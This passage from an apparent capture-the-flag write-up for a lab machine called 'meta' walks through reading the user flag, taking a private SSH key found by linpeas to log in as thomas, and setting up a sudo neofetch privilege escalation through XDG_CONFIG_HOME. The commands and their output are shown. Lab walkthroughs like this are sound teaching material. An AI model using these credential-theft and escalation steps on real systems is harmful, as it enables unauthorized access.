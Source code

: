 Afterwards, we will be able to obtain the user's flag from /home/thomas/user.txt

```
thomas@meta:~$ cat user.txt
cat user.txt
<Redacted user flag>
```

### Privilege Escalation to root user
Using linpeas, we are able to obtain an id_rsa file in /home/thomas/.ssh/id_rsa. We will save the id_rsa file on our local machine and ssh in with the id_rsa file. 

```
┌──(kali㉿kali)-[~/Desktop/meta]
└─$ ssh -i id_rsa thomas@10.10.11.140                                                                          255 ⨯
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
thomas@meta:~$ 
```

Running ```sudo -l```, we realize that the user Thomas is able to execute commands on neofetch with root permissions. We can then make use of neofetch to gain privilege escalation to the root user.

```
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

From the output of ```sudo -l```, we also realize that there is an extra environment variable that sets the XDG_CONFIG_HOME. However, when we try to check the value of XDG_CONFIG_HOME, we realize that it is currently not set. With some research, we realize that the XDG_CONFIG_HOME is the base directory where config files are being stored.

```
thomas@meta:~$ echo $XDG_CONFIG_HOME

thomas@meta:~$ 
```

Let us first set the XDG_CONFIG_HOME using the default value of $HOME/.config.

```
thomas@meta:~$ export XDG_CONFIG_HOME="$HOME/.config"
thomas@meta:~$ echo $XDG_CONFIG_HOME
/home/thomas/.config
thomas@meta:~$ 
```
